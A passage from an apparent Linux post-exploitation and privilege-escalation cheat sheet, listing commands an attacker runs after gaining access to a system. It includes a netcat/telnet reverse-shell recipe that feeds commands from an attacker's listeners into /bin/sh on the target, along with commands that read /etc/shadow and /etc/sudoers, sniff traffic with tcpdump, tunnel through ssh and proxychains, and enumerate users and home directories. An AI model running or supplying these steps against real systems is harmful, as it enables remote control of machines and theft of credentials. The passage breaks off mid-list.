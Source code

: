 - Whats cached? IP and/or MAC addresses
    
    arp -e
    route
    /sbin/route -nee
    
- Is packet sniffing possible? What can be seen? Listen to live traffic
    
    # tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
    tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
    
- Have you got a shell? Can you interact with the system?
    
    # http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
    nc -lvp 4444    # Attacker. Input (Commands)
    nc -lvp 4445    # Attacker. Ouput (Results)
    telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
    
- Is tunnelling possible? Send commands locally, remotely
    
    ssh -D 127.0.0.1:9050 -N [username]@[ip]
    proxychains ifconfig
    

## `Confidential Information & Users`

- Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?
    
    id
    who
    w
    last
    cat /etc/passwd | cut -d:    # List of users
    grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
    awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
    cat /etc/sudoers
    sudo -l
    
- What sensitive files can be found?
    
    cat /etc/passwd
    cat /etc/group
    cat /etc/shadow
    ls -alh /var/mail/
    
- Anything "interesting" in the home directorie(s)? If it's possible to access
    
    ls -ahlR /root/
    ls -ahlR /home/
    
- Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords
    